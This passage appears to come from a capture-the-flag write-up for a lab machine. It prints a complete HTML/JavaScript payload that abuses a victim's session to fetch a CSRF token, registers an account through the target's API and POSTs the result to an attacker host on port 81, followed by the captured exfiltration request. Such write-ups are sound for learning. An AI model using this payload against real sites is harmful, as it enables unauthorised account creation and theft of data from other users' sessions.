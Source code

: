     <html>
      <head>
        <title>pwned</title>
      </head>
      <body>
        <script>
          var req_token = new XMLHttpRequest();
          req_token.onreadystatechange = function() {
            if (req_token.readyState == 4) {
              // With token, proceed to register
              var token = JSON.parse(req_token.response).token;
              var req_register = new XMLHttpRequest();
              req_register.onreadystatechange = function() {
                if (req_register.readyState == 4) {
                  // Once registration returns, send result back
                  var req_exfil = new XMLHttpRequest();
                  req_exfil.open("POST", "http://gymxcrossfit.htb:81/exfil", false);
                  req_exfil.send("resp: " + req_register.response);
                }
              }
              req_register.open("POST", "http://crossfit-club.htb/api/signup")
              req_register.withCredentials = true;
              req_register.setRequestHeader('X-CSRF-TOKEN', token);
              req_register.setRequestHeader('Content-Type', 'application/json');
              req_register.send('{"username": "0xdf", "email": "0xdf@developer.htb", "password": "0xdf0xdf", "confirm": "0xdf0xdf"}');
            }
          }
          req_token.open("GET", "http://crossfit-club.htb/api/auth");
          req_token.withCredentials = true;
          req_token.send();
        </script>
      </body>
    </html>  
    

I’ll run the trigger script again. After a couple minutes, the request comes
to the PHP server, and then immediately I get a request at `nc` on TCP 81:

    
    
    POST /exfil HTTP/1.1
    Host: gymxcrossfit.htb:81
    User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate

